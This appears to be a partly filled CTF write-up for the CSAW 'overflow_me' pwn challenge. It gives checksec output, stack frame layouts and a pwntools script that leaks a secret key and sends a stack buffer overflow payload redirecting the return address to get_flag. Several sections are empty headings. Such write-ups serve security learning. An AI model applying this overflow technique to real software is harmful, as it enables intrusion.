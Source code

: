 # overflow_me - CSAW
## Challenge Info
- Date: 2025
- CTF Name: CSAW
- Category: pwn
- Difficulty (subjective): easy
- Points: 477
- Provided Files: overflow_me(ELF)
- tools: 
## Brief Description
## Initial Analysis
### Environment
``` sh
checksec overflow_me
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
## Vulnerability
## Exploit
### Strategy
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| addr | -0x8 |
| key | -0x10 |
| *fd | -0x18
### Stack Frame of get_input
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| fd | -0x8 |
| target | -0x10 |
| buf | -0x50 |
### payload
``` python
from pwn import *

p = remote('chals.ctf.csaw.io', 21006)
# p = process('./overflow_me')

# bof-1
secret_key_addr = 0x4040b8
p.sendafter(b'Your favorite book waits for you. Tell me its address', p64(secret_key_addr))
p.recvline()
secret_key = int(p.recvuntil('\n').decode().strip(), 16)
log.info(f'secret key: {secret_key:#x}')
p.sendafter(b'\nOf course there\'s a key. There always is. If you speak it, the story unlocks', p64(secret_key))

# bof-2
p.recvuntil(b'It has something for you: 0x')
val = int(p.recvline().decode().strip(), 16)
log.info(f'val: {val:#x}')
get_flag_addr = 0x0000000000401424
ret_addr = 0x000000000040101a
payload = b''
payload += b'A' * 0x40 # buf
payload += p64(val) # target
payload += b'B' * 0x8 # fd
payload += b'C' * 0x8 # rbp
payload += p64(ret_addr) # system's stack alignment
payload += p64(get_flag_addr) # ra
p.sendlineafter(b'Your turn now. Write yourself into this story.', payload)

# interactive
p.interactive() 
```
### PoC(Poof of Concept)
## Lessons Learned
## Mitigation Strategies(Remediation)